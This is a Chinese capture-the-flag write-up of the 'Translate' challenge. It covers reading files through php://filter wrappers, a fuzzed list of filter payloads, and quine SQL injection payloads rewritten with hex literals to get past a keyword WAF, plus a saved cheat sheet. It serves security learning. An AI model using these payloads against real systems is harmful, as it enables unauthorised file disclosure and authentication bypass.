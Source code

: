 ## 基本信息

- 题目名称： [NUSTCTF 2022 新生赛]Translate
- 题目链接： https://www.nssctf.cn/problem/3151
- 考点清单： quine注入, unique注入, SQL注入, WAF绕过, PHP伪协议读取文件, 源码审计, php://filter, 简单模糊测试
- 工具清单： Yakit, sqlmap, mysql, adminer
- payloads： PHP伪协议读取cheatsheet, quine

## 一、看到什么

### 第一轮

**题目关键信息列表**：

1. `登录表单`: 最基本的登录表单，包括用户名和密码输入框。

### 二、想到什么解题思路

1. 页面源码审计：查看页面源码，寻找注释、隐藏字段、js代码等信息。

### 三、尝试过程和结果记录

1. `Yakit` 的 `MITM 交互式劫持` 的 `MITM` 历史记录里，直接看到 `HTML 注释` 标记的请求记录，直接点击查看响应内容发现。发现 `/dGVzdC5waHA=` ，经过 `base64` 解码后是 `/test.php` 。
2. 访问 `/test.php` 。

```php
<?php
include_once("fun.php");
//我的室友板鸭把flag藏到flag.php里了
highlight_file(__FILE__);
error_reporting(0);

$file = $_GET['file'];
if (!is_file($file)) { 
    highlight_file(filter($file));
} else {
    echo "我室友说了，会有大坏蛋来敲门!";
} 
```

根据上面的代码审计可知：这里的 is_file() 会过滤掉真实存在的文件输入，命题人在引导我们正常读取文件的方式行不通，我们需要通过其他方式读取文件。结合当前已知信息，`PHP 伪协议读取文件` 值得尝试。

3. 目标是访问 `/test.php?file=flag.php` ，但是需要换一种方式来编码 `flag.php` 作为请求参数。以下是一些可能的写法和测试结果：

```bash
php://filter/read=convert.base64-encode/resource=flag.php
# 输出：让我康康是谁!

# 怀疑过滤了 base64-encode 关键词，直接尝试
base64-encode
# 输出：让我康康是谁!
php://filter/convert.base64-decode/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
# 输出：让我康康是谁!
```

手动太慢，改成 Yakit web fuzzer 方式，如下图所示。

![](images/2022-NUSTCTF-Translate-yakit-fuzz-php-filter.png)

有 3 个负载成功读取到了 flag.php 的内容：

```html
<?php
// index.php
// ...
checkSql($password);
// ...
// Only filtered a little
// ...
if ($row['password'] === $password) { // 熟悉的 quine 注入又来了
    alertMes($FLAG, 'index.php');
} else {
    alertMes("wrong password", 'index.php');
}
// ...
?>
```

直接使用 [hdctf2023-loginmaster](hdctf2023-loginmaster.md) 中的 `payload` 试试。页面弹窗提示： `呜呜呜呜呜呜呜呜呜呜！！大黑客来了！大家快跑！！` ，看来是 `payload` 中有关键词被 `cheatsheet()` 过滤了。

直接把上述 `payload` 中的 `char()` 函数替换成 `chr()` 函数，不报错，但也没效果。

> Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",chr(34),chr(39)),chr(46),".")#',chr(34),chr(39)),chr(46),'Y"union/**/select/**/replace(REPLACE(".",chr(34),chr(39)),chr(46),".")#')#

继续尝试将 `chr()` 函数对应的字符替换成 `0x` 写法。

> Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",0x22,0x27),0x2e,".")#',0x22,0x27),0x2e,'Y"union/**/select/**/replace(REPLACE(".",0x22,0x27),0x2e,".")#')#

再次尝试，成功拿到 Flag 。

## 四、总结与反思

- 日常刷题时要注重积累可以自动化完成特定操作步骤的方法，比如善用 `Yakit` 的 `规则配置` 功能，可以快速对 **可疑** 请求和响应进行高亮标注、Tag 标注等。
- 用过的 cheatsheet 都可以持久化存入 `payload` ，并持续维护。

## 五、本地工具环境配置

1. 定制 `Yakit` 帮我们自动找到 HTML 代码中包含的 HTML 注释代码，方便我们快速定位到需要审计的代码。

![](images/2022-NUSTCTF-Translate-yakit-pattern-match-config.png)

![](images/2022-NUSTCTF-Translate-yakit-pattern-match.png)

2. php://filter

```bash
php://filter/convert.base64-encode/resource=flag.php
php://filter/convert.base64-decode/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/zlib.deflate/resource=flag.php
php://filter/zlib.inflate/resource=flag.php
php://filter/convert.quoted-printable-encode/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php
php://filter/convert.iconv.UTF-7.UCS-4BE/resource=flag.php
```

对于 `php://filter/read=string.strip_tags/resource=php://input` ，注意到 `php://input` 是读取请求体的内容，所以需要配合 `POST` 请求使用。直接在 `POST` 请求体中写 `flag.php` ，然后 `file=php://filter/read=string.strip_tags/resource=php://input` 就可以从 `POST` 请求体中读取到 `flag.php` 。

上面的 `iconv` 支持的编码格式可以通过 `iconv --list` 查看，非常多，这里只列了一小部分。

3. SQL 绕过 WAF 等价写法

```sql
select chr(39);
-- 查询出错 (1305): FUNCTION chr does not exist

select hex(ascii(char(46)));
-- 2e

select hex(ascii(char(34)));
-- 22

select hex(ascii(char(39)));
-- 27
```


